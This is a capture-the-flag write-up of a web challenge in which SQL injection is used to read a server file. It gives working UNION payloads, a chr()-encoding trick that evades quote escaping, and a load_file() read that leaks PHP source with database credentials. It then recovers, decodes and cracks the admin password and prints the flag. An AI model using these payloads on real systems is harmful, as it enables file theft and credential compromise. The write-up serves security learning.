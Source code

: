```yaml
---
layout: default
title: SQL-injection-File-reading
---
```


The injection point is here `/web-serveur/ch31/?action=members&id=`, and if we give this payload:
```sql
4 union select 1
```
We get back:
```
The used SELECT statements have a different number of columns
```

So, let's give more `null` until we find how many columns there are, we give `id=4` because we don't want to find in the left query, rather in the right query:
```sql
4 union select null,null,null,null
```
And it's working, now let's try and give dummy content:
```sql
4 union select 1,2,3,4
```
response:
```
ID : 1
Username : 2
Email : 4
```

Okay, when i tried to give with `'`, I got error, so we'll use this python script, to give our payload without `'`:
```py
print( 'concat(' + ','.join([f"chr({ord(i)})" for i in list("payload")]) + ')' )
```

Now, the challenge is `read-file`, so let's give this subquery `select load_file('filename')`, and the filename will be: 
```
/challenge/web-serveur/ch31/index.php
```
And after the python script:
```
concat(chr(47),chr(99),chr(104),chr(97),chr(108),chr(108),chr(101),chr(110),chr(103),chr(101),chr(47),chr(119),chr(101),chr(98),chr(45),chr(115),chr(101),chr(114),chr(118),chr(101),chr(117),chr(114),chr(47),chr(99),chr(104),chr(51),chr(49),chr(47),chr(105),chr(110),chr(100),chr(101),chr(120),chr(46),chr(112),chr(104),chr(112))
```

So, the input will be:
```sql
4 union select load_file(concat(chr(47),chr(99),chr(104),chr(97),chr(108),chr(108),chr(101),chr(110),chr(103),chr(101),chr(47),chr(119),chr(101),chr(98),chr(45),chr(115),chr(101),chr(114),chr(118),chr(101),chr(117),chr(114),chr(47),chr(99),chr(104),chr(51),chr(49),chr(47),chr(105),chr(110),chr(100),chr(101),chr(120),chr(46),chr(112),chr(104),chr(112))),2,3,4
```

As you can see, we got the file `index.php`
![inedx.php](./images/SQL-injection-File-reading_index_dot_php.png)

And after reformating from chatGPT:
```php
<?php

define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');


function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
 

$GLOBALS["___mysqli_ston"] = mysqli_connect('', SQL_LOGIN, SQL_P, "", 0, SQL_HOST) or exit('mysql connection error !');
mysqli_select_db($GLOBALS["___mysqli_ston"], SQL_DB) or die("Database selection error !");

if ( ! isset($_GET['action']) ) $_GET['action']="login";

if($_GET['action'] == "login"){
        print '<form METHOD="POST">
                <p><label style="display:inline-block;width:100px;">Login : </label><input type="text" name="username" /></p>
                <p><label style="display:inline-block;width:100px;">Password : </label><input type="password" name="password" /></p>
                <p><input value=submit type=submit /></p>
                </form>';

	if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
	{
		$user = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], strtolower($_POST['username']));
		$pass = sha1($_POST['password']);
		
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			if($pass == stringxor($key, base64_decode($data['member_password']))){
                                // authentication success
                                print "<p>Authentication success !!</p>";
                                if ($user == "admin")
                                    print "<p>Yeah !!! You're admin ! Use this password to complete this challenge.</p>";
                                else 
                                    print "<p>But... you're not admin !</p>";
			}
			else{
                                // authentication failed
				print "<p>Authentication failed !</p>";
			}
		}
		else{
			print "<p>User not found !</p>";
		}
	}
}

if($_GET['action'] == "members"){
	if(isset($_GET['id']) && !empty($_GET['id']))
	{
                // secure ID variable
		$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_GET['id']);
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member WHERE member_id=$id") or die(mysqli_error($GLOBALS["___mysqli_ston"]));
		
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			print "ID : ".$data["member_id"]."<br />";
			print "Username : ".$data["member_login"]."<br />";
			print "Email : ".$data["member_email"]."<br />";	
		}
                else{
                        print "no result found";
                }
	}
	else{
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member");
		while ($row = mysqli_fetch_assoc($result)) {
			print "<p><a href=\"?action=members&id=".$row['member_id']."\">".$row['member_login']."</a></p>";
		}
	}
}

?>
```

We can look on this code:
```php
    $pass = sha1($_POST['password']);

    $result = mysqli_query(
        $GLOBALS["___mysqli_ston"],
        "SELECT member_password FROM member WHERE member_login='" . $user . "'"
    );

    if (mysqli_num_rows($result) == 1) {
        $data = mysqli_fetch_array($result);

        if ($pass == stringxor($key, base64_decode($data['member_password']))) {
            // authentication success
            print "<p>Authentication success !!</p>";
```

It takes our `password`, hashes it using `sha1`, and then check if it's equal to the `key` we don't know, and to `$data['member_password']`, which we're going to get right now.


We send this payload:
```sql
4 union select (select member_password from member limit 1),2,3,4
```
And get:
```
ID : VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==
Username : 2
Email : 4
```
So, `$data['member_password']` equals to `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`

and we also got this:
```php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
```

So, we can take the reverse function, and generate the `SHA1` of the secret password.

```php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
$data['member_password'] = "VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==";

echo stringxor($key, base64_decode($data['member_password']));
```
And we got this:
```
77be4fc97f77f5f48308942bb6e32aacabed9cef
```
![get hash](./images/SQL-injection-File-reading_get_hashed_flag.png)


Let's go to crackstation.net, and we got it, the password is
```
superpassword
```

![FINAL](./images/SQL-injection-File-reading_FINAL.png)

**Flag:** **_`superpassword`_**